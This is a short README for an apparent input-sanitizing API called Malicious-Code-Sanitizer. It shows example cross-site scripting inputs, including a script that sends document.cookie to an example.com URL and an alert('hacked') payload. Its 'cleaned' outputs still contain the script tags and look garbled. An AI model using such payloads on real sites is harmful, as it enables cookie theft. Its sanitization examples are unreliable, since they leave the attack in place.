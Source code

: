 # Malicious-Code-Sanitizer
An API/Library to Sanitize Malicious Code
Input : Malicious Code
Eg. '>&script>document.location= 'http://www.example.com/index.php?param='+document.cookie&/script>' 
Output : Cleaned Code
Eg. &script>document.location= 'http://www.example.com/index.php? param='+document.cookie&script>'  

API Structure : domain.com/sanitizestring/string="'>&script>alert("hacked");&/script>" 
JSON Response of API  : 
{ "BadString" : "'>&script>alert("hacked");</script>", 
"CleanedString":"&script>alert("hacked");</script>" 
}
